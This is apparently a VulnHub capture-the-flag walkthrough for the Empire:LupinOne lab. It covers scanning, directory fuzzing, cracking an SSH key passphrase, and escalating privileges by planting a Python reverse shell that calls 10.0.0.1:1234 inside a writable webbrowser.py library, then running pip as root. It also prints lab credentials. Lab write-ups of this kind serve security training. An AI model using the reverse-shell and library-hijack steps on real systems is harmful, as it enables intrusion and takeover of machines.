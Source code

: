 
# Empire:LupinOne Walkthrough

**VulnHub Link:** [Empire:LupinOne](https://www.vulnhub.com/entry/empire-lupinone,750/)
**Difficulty:** Easy
**Release Date:** 21 Oct 2021


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.129

## 2.Web Enumeration

ffuf -c -ic -u 'http://192.168.100.129/FUZZ' -w /usr/share/wordlists/dirb/common.txt

ffuf -c -ic -u 'http://192.168.100.129/~secret/.FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-meidum.txt  -e .txt,.zip -fc 403,404

Decrypting mysecret.txt file in CyberChef

from base58 --> ssh private key got

ssh2john id_rsa > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/fasttrack.txt ---> P@55w0rd! passprhase found

ssh icex64@192.168.100.129 -i id_rsa (then enter passphrase)


## 3.Privilege Escalation

icex64 shell opened  -- user flag captured

sudo -l ---> (arsene) NOPASSWD /usr/bin/python3.9 /home/arsene/heist.py

we found out that webbrowser import used

find / -type f -name "+webbrowser+" 2>/dev/null

and see that we can write to /usr/lib/python3.9/webbrowser.py

adding python reverse shell to webbrowser.py (import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fi>

sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py (nc -nvlp 1234 before this)

and arsene shell opened cat /home/arsene/.secret --> arsene's password found ----> rQ8EE"UK,eV)weg~*nd-`5:{*"j7*Q

sudo -l ---> we can use pip as root without passwd

from GTFOBins , we did it and BINGO!!

Escalating to Root and Root flag captured...!
